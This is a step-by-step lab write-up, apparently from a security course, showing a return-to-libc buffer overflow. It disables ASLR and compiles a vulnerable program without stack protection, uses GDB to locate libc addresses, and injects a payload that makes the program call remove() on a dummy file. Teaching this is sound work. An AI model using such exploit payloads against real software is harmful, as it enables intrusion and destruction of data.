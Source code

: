# Lab3 - Return-to-libc Attack: Step-by-Step Guide

## 1. Disable ASLR (Address Space Layout Randomization)
```bash
sudo sysctl -w kernel.randomize_va_space=0
```
**Output**:
```
kernel.randomize_va_space = 0
```
This disables ASLR, ensuring that memory addresses remain consistent.

---

## 2. Compile the Vulnerable Program
```bash
gcc vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2
```
This compiles the vulnerable program `vuln.c` with flags that disable stack protection and enable execution on the stack.

---

## 3. Create the Target Directory and File
```bash
mkdir /tmp/dummy
touch /tmp/dummy/dummyfile
```
This creates the directory `/tmp/dummy` and the file `/tmp/dummy/dummyfile`, which is the file that we want to delete.

---

## 4. Set the Environment Variable
```bash
export DUMMY=/tmp/dummy/dummyfile
```
This sets the `DUMMY` environment variable to the path of the file to be deleted.

---

## 5. Start GDB


```bash
gdb ./vuln.out
```
This starts the vulnerable program in GDB.

---

## 6. Set a Breakpoint at the `main` Function
```gdb
(gdb) break main
```
This sets a breakpoint at the start of the `main()` function.

---

## 7. Run the Program
```gdb
(gdb) run
```
This starts the program under GDB control.

---

## 8. Find the Address of the `remove()` Function

```gdb
(gdb) print remove
```
![](./image/Screenshot_1.png)
**Output**:
```
$1 = {<text variable, no debug info>} 0xf7e71f30 <__GI_remove>
```
This retrieves the memory address of the `remove()` function in `libc`.

---

## 9. Find the Address of the `exit()` Function
```gdb
(gdb) print exit
```
**Output**:
![](./image/Screenshot_1.png)
```
$2 = {<text variable, no debug info>} 0xf7e449e0 <__GI_exit>
```
This retrieves the memory address of the `exit()` function in `libc`.

---

## 10. Find the Location of the `DUMMY` Environment Variable
```gdb
(gdb) find DUMMY
```
**Output**:
![](./image/Screenshot_1.png)

```
Searching for 'DUMMY' in: None ranges
Found 1 results, display max 1 items:
[stack] : 0xffffd93a ("DUMMY=/tmp/dummy/dummyfile")
```
This shows the memory location of the `DUMMY` environment variable on the stack.

---

## 11. Get the Actual Address of the File Path
```gdb
(gdb) x/s 0xffffd93a+6
```
![](./image/Screenshot_2.png)

**Output**:
```
0xffffd940:     "/tmp/dummy/dummyfile"
```
This command prints the exact memory address of the file path `/tmp/dummy/dummyfile`.

---

## 12. Disassemble the `main` Function
```gdb
(gdb) disas main
```
This disassembles the `main()` function to understand its structure.

---

## 13. Set a Breakpoint After the `strcpy` Call
```gdb
(gdb) break *0x804846b
```
![](./image/Screenshot_3.png)

This sets a breakpoint at the instruction after `strcpy` (or another vulnerable function where the buffer overflow occurs).

---

## 14. Construct and Inject the Payload
```gdb
(gdb) run $(python -c 'print "a"*64 + "bbbb" + "\x30\x1f\xe7\xf7" + "\xe0\x49\xe4\xf7" + "\x40\xd9\xff\xff"')
```
This constructs a payload:
- 64 'a' characters to fill the buffer.
- 4 'b' characters to overwrite the saved EBP.
- Address of `remove()` (`0xf7e71f30`) to overwrite the return address.
- Address of `exit()` (`0xf7e449e0`) to call after `remove()`.
- Address of `/tmp/dummy/dummyfile` (`0xffffd940`), which is passed as an argument to `remove()`.

---

## 15. Examine the Stack After `strcpy`
```gdb
(gdb) x/80xb $esp
```
![](./image/Screenshot_4.png)

This displays the contents of the stack, confirming the payload was injected correctly.



---

## 16. Verify the Payload Structure
   - 64 'a' characters (buffer fill)
   - 4 'b' characters (overwrite saved EBP)
   - `0xf7e71f30` (address of `remove()`)
   - `0xf7e449e0` (address of `exit()`)
   - `0xffffd940` (address of `DUMMY` string)

![](./image/Screenshot_5.png)
![](./image/Screenshot_6.png)


---

## 17. Continue Execution
```gdb
(gdb) continue
```
This continues the program's execution. The return-to-libc attack will trigger, calling `remove()` to delete the file and `exit()` afterward.

---

## 18. Exit GDB
```gdb
(gdb) quit
```
This exits GDB.

---

## 19. Verify the File Deletion
```bash
tree /tmp
```

![](./image/Screenshot_7.png)

This confirms that the file `/tmp/dummy/dummyfile` was successfully deleted, leaving only the empty directory.

---
